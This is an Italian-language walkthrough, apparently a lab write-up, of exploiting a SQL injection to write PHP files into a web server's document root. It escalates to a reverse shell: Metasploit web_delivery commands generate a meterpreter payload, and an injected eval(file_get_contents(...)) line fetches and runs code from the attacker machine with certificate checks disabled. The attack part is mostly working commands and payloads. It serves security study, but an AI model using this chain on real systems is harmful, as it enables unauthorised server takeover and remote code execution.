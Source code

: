 ```SQL
SELECT "<?php phpinfo(); ?>" INTO OUTFILE '/var/www/html/phpinfo.php'
```

Il comando ```SELECT``` genera come output il codice nel payload, ```INTO OUTFILE``` invece scrive tale output nel file specificato di seguito. Il path ```/var/www/html/phpinfo.php``` è tra quelli di default più comuni usati dai webserver. Quando aperto su browser, il codice viene eseguito. La funzione ```phpinfo()``` restituisce informazioni sul webserver. 

Il fatto che la pagina generata dal file ```phpinfo.php``` risulta visitabile indica che l'injection è andata a buon fine.

Per sfruttare questa vulnerabilità al meglio, il payload php della SQL injection può essere sostituito con uno che genera una reverse shell sul webserver, in modo da ottenere accesso alla macchina obiettivo. Tale payload può essere facilmente generato usando meterpreter, parte del framework [Metasploit](https://www.kali.org/tools/metasploit-framework/).

I comandi e parametri per la creazione del payload sono i seguenti:

```
sudo msfconsole
   use exploit/multi/script/web_delivery
   set target PHP
   set payload php/meterpreter/reverse_tcp
   set LHOST 192.168.56.1
   set LPORT 53
   set SRVPORT 443
   run
```

dove ```LHOST``` e ```LPORT``` sono rispettivamente indirizzo ip e porta su cui sta in ascolto la macchina attaccante, ```SRVPORT``` invece è la porta usata dal server Metasploit per servire il payload meterpreter. Le porte usate sono quelle più comuni, in modo da evitare l'interferenza di firewall.

Il payload generato è il seguente:

```php
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.56.1:443/QDtxspMboNPbjD', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

Inserendo la porzione tra virgolette in una query SQL, si ottiene il codice da iniettare nel form:

```php
SELECT "<?php eval(file_get_contents('http://192.168.56.1:443/QDtxspMboNPbjD', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]]))); ?>" INTO OUTFILE '/var/www/html/shell.php'
```


La funzione ```eval()``` valorizza la stringa in argomento come codice php. In questo caso, ad essere valorizzato è il contenuto del file ottenuto e convertito in stringa tramite la funzione ```file_get_contents()```.  Quest'ultima ha come argomento un URL, il cui host è la macchina attaccante; il file specificato viene servito da Metasploit e contiene il codice malevolo per la creazione della reverse shell. Le opzioni aggiuntive servono per disattivare la verifica del certificato SSL.

Il codice iniettato viene scritto su un file nel filesystem del webserver, sul quale entra in esecuzione una volta aperto dall'attaccante tramite browser.
